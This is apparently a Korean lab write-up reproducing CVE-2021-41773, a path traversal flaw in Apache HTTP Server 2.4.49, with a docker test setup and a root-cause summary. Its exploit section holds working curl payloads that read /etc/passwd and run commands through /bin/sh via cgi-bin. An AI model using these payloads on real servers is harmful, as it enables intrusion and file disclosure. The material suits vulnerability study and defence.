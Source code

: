 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)
Contributors
  - 심택범(@GODMuang)

## 요약
The Apache HTTP Server Project는 UNIX 및 Windows를 포함한 현대 운영체제를 위한 오픈소스 HTTP 서버를 개발하고 유지하려는 노력입니다.

Apache HTTP Server 2.4.49버전에서 경로 정규화에 대한 변경사항에서 결함을 확인했습니다.
공격자는 path traversal attack을 이용해 url을 정해진 document root외의 파일에 매핑할 수 있습니다.

이런 디렉토리 외부 파일이 일반적인경우 default configuration인 : "require all denied"로 보호되지 않은 경우에, 공격이 성공할 수도 있습니다.
만약, CGI스크립트 역시 활성화된 상태라면 aliased path에 대해서도 Remote Code Execution이 가능해집니다.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 환경구성

테스트 환경 구성을 위해 다음 명령어를 실행합니다:

```
docker compose build
docker compose up -d
```

서버가 정상적으로 구동된다면, `http://your-ip:8080` 에 접속하여 Apache HTTP Server의 `It works!`라는 문구를 확인할 수 있습니다.

## Exploit

취약점 재현을 위한 curl 명령어 ( `/icons/` 이라는 디렉터리가 존재해야함 )

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

`/etc/passwd` 를 성공적으로 확인할 수 있습니다.

![](1.png)

서버에서 CGI 또는 CGID 모드를 활성화하면, path traversal취약점으로 인해 임의 명령실행이 허용됩니다.

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)


## 정리

상위 디렉터리 문자열 "../"에 대한 필터링 미흡으로 발생한 취약점입니다.

기본적으로 Apache에서 "../"문자열이 차단되어 있지만, URL 인코딩을 이용해 우회가 가능합니다.
